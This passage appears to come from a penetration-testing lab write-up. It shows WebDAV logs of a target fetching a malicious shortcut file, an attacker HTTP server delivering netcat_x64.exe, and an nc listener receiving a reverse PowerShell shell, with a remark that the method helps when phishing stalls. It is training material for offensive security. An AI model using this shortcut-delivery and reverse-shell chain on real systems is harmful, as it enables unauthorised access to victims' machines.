15:26:17.843 - INFO    : 192.168.225.242 - (anonymous) - [2024-04-14 21:26:17] "PROPFIND /" length=0, depth=1, elap=0.003sec -> 207 Multi-Status
15:26:17.955 - INFO    : Got OPTIONS '/' request
15:26:17.956 - INFO    : 192.168.225.242 - (anonymous) - [2024-04-14 21:26:17] "PROPFIND /" length=0, depth=1, elap=0.001sec -> 207 Multi-Status
15:26:18.069 - INFO    : Got OPTIONS '/' request
15:26:18.070 - INFO    : 192.168.225.242 - (anonymous) - [2024-04-14 21:26:18] "PROPFIND /" length=0, depth=1, elap=0.001sec -> 207 Multi-Status
15:26:18.182 - INFO    : Got OPTIONS '/' request
15:26:18.183 - INFO    : 192.168.225.242 - (anonymous) - [2024-04-14 21:26:18] "PROPFIND /" length=0, depth=1, elap=0.001sec -> 207 Multi-Status
15:26:18.295 - INFO    : Got OPTIONS '/' request
15:26:18.296 - INFO    : 192.168.225.242 - (anonymous) - [2024-04-14 21:26:18] "PROPFIND /" length=0, depth=1, elap=0.001sec -> 207 Multi-Status
15:26:18.451 - INFO    : 192.168.225.242 - (anonymous) - [2024-04-14 21:26:18] "GET /automatic_configuration.lnk" depth=0, elap=0.039sec -> 200 OK
```

```
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.225.242 - - [14/Apr/2024 15:26:19] "GET /netcat_x64.exe HTTP/1.1" 200 -
```

And the connection back to the listener is successful:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>kali@kali:~$ rlwrap nc -lvnp 443
</strong>listening on [any] 443 ...
connect to [192.168.45.243] from (UNKNOWN) [192.168.225.242] 62700
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0> whoami
whoami
beyond\marcus
PS C:\Windows\System32\WindowsPowerShell\v1.0> hostname
hostname
CLIENTWK1
PS C:\Windows\System32\WindowsPowerShell\v1.0> ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.181.243
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.181.254
PS C:\Windows\System32\WindowsPowerShell\v1.0> 
</code></pre>

This example can be used when phishing is not going well with Apache.
